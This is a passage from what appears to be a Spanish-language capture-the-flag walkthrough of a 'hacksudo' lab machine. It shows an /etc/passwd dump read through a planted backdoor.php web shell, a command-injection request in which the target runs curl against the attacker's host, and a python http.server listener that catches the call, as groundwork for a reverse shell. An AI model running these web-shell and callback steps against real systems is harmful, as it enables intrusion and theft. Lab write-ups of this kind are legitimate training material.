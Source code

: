 ```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:108:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
pulse:x:109:118:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:112:121::/var/lib/saned:/usr/sbin/nologin
colord:x:113:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:114:123::/var/lib/geoclue:/usr/sbin/nologin
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false
hacksudo:x:1000:1000:hacksudo,,,:/home/hacksudo:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:117:65534::/run/sshd:/usr/sbin/nologin
mysql:x:118:126:MySQL Server,,,:/nonexistent:/bin/false
```

Por lo que veremos que funciona y nos podremos hacer una `Reverse Shell`...

Primero veremos si tiene instalado `curl`...

```shell
URL = http://<IP>/backdoor.php?cmd=curl http://<IP_HOST>/test
```

Estando a la escucha para saber que te llega el mensaje del envio del comando desde la maquina victima...

```shell
python3 -m http.server 80
```
